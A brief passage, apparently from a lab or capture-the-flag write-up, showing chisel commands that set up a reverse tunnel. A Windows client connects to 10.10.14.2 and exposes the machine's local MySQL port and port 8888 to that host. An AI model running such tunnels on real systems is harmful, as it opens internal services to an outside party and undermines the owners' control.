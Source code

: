 ```bash
./chisel server --reverse --port 3337
```
```
```powershell
.\chisel.exe client 10.10.14.2:3337 R:3306:localhost:3306 R:8888:localhost:8888
```